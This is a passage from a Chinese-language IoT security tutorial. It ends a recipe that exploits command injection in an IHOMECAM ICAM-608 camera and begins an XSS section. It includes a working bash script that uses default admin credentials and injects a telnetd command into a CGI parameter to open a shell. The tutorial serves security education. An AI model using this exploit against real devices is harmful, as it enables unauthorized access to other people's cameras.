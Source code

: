 ```
Linux apk-link 3.10.14 #5 PREEMPT Thu Sep 22 09:11:41 CST 2016 mips GNU/Linux

```

1.  在设备的 LAN 上获得 shell 权限后，可以使用各种技术进行后期利用。本教程不涵盖后期利用技术；然而，我们可以轻松地编写命令注入有效负载的脚本，以确保使用以下 bash 脚本访问：

```
#!/bin/sh  
wget -q'- 'http://192.168.1.177/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&upload_interval=0'  
wget -qO- 'http://192.168.1.177/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=admin' 
telnet 192.168.1.177 25  
```

在这个教程中，我们介绍了在 IHOMECAM ICAM-608 IP 摄像头上发现和利用命令注入。我们能够获得 shell 访问权限，并创建一个脚本来自动化利用命令注入。

# 另请参阅

+   要了解更多关于查找和预防命令注入的信息，请参考 OWASP 的命令注入维基页面（[`www.owasp.org/index.php/Command_Injection`](https://www.owasp.org/index.php/Command_Injection)）以及 OWASP 的嵌入式应用安全项目（[`www.owasp.org/index.php/OWASP_Embedded_Application_Security`](https://www.owasp.org/index.php/OWASP_Embedded_Application_Security)）。

# 利用 XSS

XSS 是一种攻击类型，它从不受信任的来源执行和注入任意 JavaScript 到受信任网站的上下文中。当攻击者发现 Web 应用程序中存在一个漏洞参数，可以在不验证或输出编码字符的情况下执行动态内容并将内容呈现给用户时，XSS 攻击就会发生。XSS 攻击利用浏览器的能力传输攻击有效负载，因为浏览器认为代码是受信任的。XSS 漏洞有三种类型：反射型（最常见），存储型和基于 DOM 的。反射型 XSS 漏洞是在不对内容进行消毒的情况下，将参数数据复制并回显到应用程序的响应中产生的。存储型 XSS 漏洞是当应用程序允许将参数输入数据存储在应用程序的数据库中以供以后使用时产生的。**文档对象模型**（**DOM**）XSS 漏洞是当来自参数的数据通过 JavaScript 函数被馈送到 DOM 元素中时产生的。

成功利用 XSS 的攻击者可以做到以下几点：

+   关键日志数据

+   攻击受害者的本地区域网络（LAN）

+   将所有 Web 流量代理通过受害者，称为**浏览器中间人**（**MITB**）

+   窃取或修改应用程序的 cookie 以进行会话劫持

+   修改受害者应用程序的外观

+   绕过 CSRF 安全控制

要成功攻击受害者，攻击者需要执行某种社会工程技术，以使用户执行恶意请求。XSS 攻击的常见社会工程方法包括以下几种：

+   创建一个带有恶意 JavaScript 的假网站，并链接到其页面

+   发送嵌入恶意 Web URL 的电子邮件

+   使用 URL 缩短器掩盖 URL

在每种情况下，初始 URL 将链接到受信任的受害者网站，并且将在用户不知情的情况下异步执行恶意 JavaScript 代码。在这个教程中，我们将介绍发现和利用反射型 XSS 漏洞，从而完全控制受害者浏览器。

# 准备工作
